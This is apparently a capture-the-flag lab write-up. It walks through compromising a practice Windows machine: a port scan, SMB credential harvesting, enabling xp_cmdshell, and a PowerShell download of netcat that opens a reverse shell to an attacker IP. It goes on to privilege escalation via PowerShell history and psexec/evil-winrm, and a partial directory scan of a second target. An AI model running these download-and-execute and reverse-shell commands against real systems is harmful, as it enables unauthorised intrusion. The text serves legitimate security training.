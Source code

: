 ## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile    C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP

    xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
    ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

   In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

   ![scan port](./image/Task5_get_user.jpg)


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
    
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe .\winPEASx64.exe
    
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

      We got the password,
   
      ```bash
      
      $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
      
      ```
   
11.  Login as Administrator

        We use impacket pasexec.py:

        ```bash
     
        python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
        
        ```

     or use the Evil-WinRm:

       ```bash
       
       evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
       
       ```

       After this, we can read the root flag:

       ```bash
    
       cd C:\Users\Administrator\Desktop
       type root.txt
        
       ```
    
       get the root flag: b91ccec3305e98240082d4474b848528.

      ![scan port](./image/Task5_get_root.jpg)

## Task 2

### 🛠️The process of solving task2

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can log in the page successfully.

   

   
   
   


     
    
